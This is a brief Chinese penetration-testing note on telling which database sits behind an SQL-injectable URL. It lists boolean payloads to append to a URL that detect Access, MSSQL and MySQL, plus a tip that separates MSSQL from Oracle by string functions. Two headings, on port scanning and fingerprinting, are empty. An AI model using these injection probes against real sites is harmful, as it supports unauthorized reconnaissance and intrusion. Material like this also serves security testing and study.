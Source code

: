 +++
date = "2016-06-19T22:15:52+08:00"
description = ""
draft = false
tags = ["注入"]
title = "SQL注入之判断数据库类型"
topics = ["Pentest","SQL Injection"]

+++

### 0x01 扫描端口

### 0x02 指纹信息

### 0x03 在URL后面直接判断
> ```
Access:
    and (select count(*) from MSysAccessObjects)>0 返回正常说明是access
    and exists(select count(*) from 表)
SQLserver:
    and (select count(*) from sysobjects) >0 返回正常说明是mssql
MySQL:
    and length(user())>0    返回正常说明是MySQL
```

### 0x04 其他方法
> ```
在mssql中可以调用substring。oracle则只可调用substr
```